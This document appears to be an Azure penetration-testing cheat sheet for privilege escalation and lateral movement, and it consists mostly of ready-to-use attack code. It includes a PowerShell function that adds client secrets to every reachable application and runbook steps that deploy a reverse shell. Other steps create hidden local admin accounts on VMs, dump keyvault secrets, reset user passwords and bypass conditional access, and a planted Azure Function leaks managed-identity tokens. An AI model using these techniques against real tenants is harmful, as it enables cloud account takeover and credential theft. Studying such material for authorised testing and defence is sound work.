

# Privesc and lateral movement

## Adding secrets to service principals

The simplest way to check if an user can abuse its permissions over a service principal is to try to add secrets to it.

To perform this operation the following script along a graph token is required:

```powershell

Function Add-AzADAppSecret
{

<#
    .SYNOPSIS
        Add client secret to the applications.

    .PARAMETER GraphToken
        Pass the Graph API Token 

    .EXAMPLE
        PS C:\> Add-AzADAppSecret -GraphToken 'eyJ0eX..'

    .LINK
        https://docs.microsoft.com/en-us/graph/api/application-list?view=graph-rest-1.0&tabs=http
        https://docs.microsoft.com/en-us/graph/api/application-addpassword?view=graph-rest-1.0&tabs=http
#>

    [CmdletBinding()]
    param(
    [Parameter(Mandatory=$True)]
    [String]
    $GraphToken = $null
    )

    $AppList = $null
    $AppPassword = $null

    # List All the Applications


    $Params = @{
     "URI"     = "https://graph.microsoft.com/v1.0/applications"
     "Method"  = "GET"
     "Headers" = @{
     "Content-Type"  = "application/json"
     "Authorization" = "Bearer $GraphToken"
     }
    }

    try
    { 
        $AppList = Invoke-RestMethod @Params -UseBasicParsing
    }
    catch
    {
    }

    # Add Password in the Application

    if($AppList -ne $null)
    {
        [System.Collections.ArrayList]$Details = @()

        foreach($App in $AppList.value)
        {
            $ID = $App.ID
            $psobj = New-Object PSObject

            $Params = @{
             "URI"     = "https://graph.microsoft.com/v1.0/applications/$ID/addPassword"
             "Method"  = "POST"
             "Headers" = @{
             "Content-Type"  = "application/json"
             "Authorization" = "Bearer $GraphToken"
             }
            }

            $Body = @{
              "passwordCredential"= @{
                "displayName" = "Password"
              }
            }
 
            try
            {
                $AppPassword = Invoke-RestMethod @Params -UseBasicParsing -Body ($Body | ConvertTo-Json)
                Add-Member -InputObject $psobj -NotePropertyName "Object ID" -NotePropertyValue $ID
                Add-Member -InputObject $psobj -NotePropertyName "App ID" -NotePropertyValue $App.appId
                Add-Member -InputObject $psobj -NotePropertyName "App Name" -NotePropertyValue $App.displayName
                Add-Member -InputObject $psobj -NotePropertyName "Key ID" -NotePropertyValue $AppPassword.keyId
                Add-Member -InputObject $psobj -NotePropertyName "Secret" -NotePropertyValue $AppPassword.secretText
                $Details.Add($psobj) | Out-Null
            }
            catch
            {
                Write-Output "Failed to add new client secret to '$($App.displayName)' Application." 
            }
        }
        if($Details -ne $null)
        {
            Write-Output ""
            Write-Output "Client secret added to : " 
            Write-Output $Details | fl *
        }
    }
    else
    {
       Write-Output "Failed to Enumerate the Applications."
    }
}

```

Usage is simple

```powershell
Add-AzADAppSecret -GraphToken {{ Token eyJ0eX... }} -Verbose
```

Connect to Azure as a service principal

```powershell
# Connect as fileapp service principal
$passwd = ConvertTo-SecureString "{{ Secret secret }}" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("{{ ServicePrincipalID serviceprincipalid}}", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant {{ TenantId tenantid}}
```

Then we can relaunch the enumeration phase:

```powershell
# List resources
Get-AzResource

# List secrets in keyvault
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }}

# Access keyvault
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }} -Name {{ SecretName secretname }}-AsPlainText
```

## Automation abuse

The group automation admins is interesting, we can list the owned objects for a user:

```powershell
az ad signed-in-user list-owned-objects
# Example output
#{
#    "deletionTimestamp": null,
#    "description": "Members can create and run runbooks",
#    "dirSyncEnabled": null,
#    "displayName": "Automation Admins",
#    [...]
```

A user who owns a group but is not member of a group can make itself member of the group

```powershell
Add-AzureADGroupMember -ObjectId {{ UserId userid }} -RefObjectId {{ Group object }} -Verbose
```

Once the user belongs to Authomation Admins it can list automations

```powershell
az automation account list
```

Let's switch to Az powershell module 

```powershell
# Get token for ARM
az account get-access-token
$AccessToken = 'eyJ0...'

Connect-AzAccount -AccessToken $AccessToken -GraphAccessToken $AADToken -AccountId f66e133c-bd01-4b0b-b3b7-7cd949fd45f3
```

Enumerate the automations

```powershell
# Get role for the user in the automation
Get-AzRoleAssignment -Scope {{ AutomationId /subscriptions/{subs}/resourceGroups/{rg}/providers/Microsoft.Automation/automationAccounts/{name} }}
# Best output:
# RoleDefinitionName : Contributor

# Check if automation has any HybridWorker
Get-AzAutomationHybridWorkerGroup -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }}
```

An hybrid worker is when a Runbook is to be run on a non-azure machine.

With contributor access in the automation it is possible to execute commands in the infrastructure

```powershell
# Create runbook with a custom powershell that is a reverse shell
Import-AzAutomationRunbook -Name {{ AutoName autoname }} -Path {{ Path_script path }} -AutomationAccountName {{ AutomationAccountName automationaccountname }} - ResourceGroupName {{ ResourceGroupName resourcegroupname }} -Type PowerShell -Force -Verbose
# Publish
Publish-AzAutomationRunbook -RunbookName {{ AutoName autoname }} -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }} - Verbose
# Start 
Start-AzAutomationRunbook -RunbookName {{ AutoName autoname }} -RunOn Workergroup1 -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }} -Verbose
```

## Compromise Azure VM to dump credentials

In this scenario we have access to an Azure VM and we want to dump the credentials for the machine

```powershell
# Get NetworkProfile of the machine
Get-AzVM -Name {{ MachineName machinename }} -ResourceGroupName {{ ResourceGroup resourcegroup }} | select -ExpandProperty NetworkProfile | fl

# Get information about the network interface
Get-AzNetworkInterface -Name {{ InterfaceName interfacename}

# Get public IP
Get-AzPublicIpAddress -Name {{ InterfaceName interfacename}}
```

Once we know the interface we can craft a file to add a local administrator user

```powershell
$passwd = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
New-LocalUser -Name {{ Name username }} -Password $passwd
Add-LocalGroupMember -Group Administrators -Member {{ Name username }}
```

Now the command can be ran in the Azure VM

```powershell
Invoke-AzVMRunCommand -VMName {{ VMName }} -ResourceGroupName {{ ResourceGroup resourceGroup }} -CommandId 'RunPowerShellScript' -ScriptPath 'adduser.ps1' -Verbose
```

A powershell session can be used to connect, run commands or transfer files:

```powershell
$password = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('{{ Name username }}', $Password)
$sess = New-PSSession -ComputerName {{ IP }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
    
    # Juicy information can be found in powershell history
    cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

If we have access to the vm but no password we can try to reset the password as well

```powershell
$password = "{{ Password password }}" | ConvertTo-SecureString -AsPlainText –Force
(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "{{ UserMail user@domain.com }}"}).ObjectId | Set-AzureADUserPassword -Password $Password –Verbose
```

## Dumping keyvaults

With a token to management.azure.com and other to vault.azure.net we can try to access the keyvaults and read its contents

```powershell
$armToken = '{{ ARMToken eyJ0eX }}'
$vaultToken = '{{ VaultToken eyJ0eX }}'

Connect-AzAccount -AccessToken $armToken -AccountId {{ AccountId }} -KeyVaultAccessToken $vaultToken

# List keyvaults
Get-AzKeyVault

# Get role 
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname}}

# Get secret plain
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }} -Name {{ SecretName secretname }} –AsPlainText
```

## Bypass device conditional access

There are some service principals that could be only accessible using determined devices, for example a mobile phone or an IP. In any case, after the token is created it can be used from anywhere.

  

There are other little tricks that allow to access a service principal protected by a conditional access policy, for example if we have a policy that only allows access from mobile phones, it can be bypassed changing the user agent in Chrome dev tools.

  

## Abusing GitHub to compromise Azure

If the deployment of GitHub code is automated it could be possible to leverage this to gain remote command execution in the Azure host and extract the token.

```python
import logging
import os

import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.') 
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT'] 
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

    cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()

    return func.HttpResponse(val, status_code=200)
```

Deployment templates can have interesting information

```powershell
Get-AzResourceGroup

# Check if can read deployment
Get-AzResourceGroupDeployment -ResourceGroupName {{ ResourceGroupName resourcegroup}}

# Save deployment
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName {{ ResourceGroupName resourcegroup}}} -DeploymentName {{ DeploymentName deploymentname}}
# look for commandToExecute
```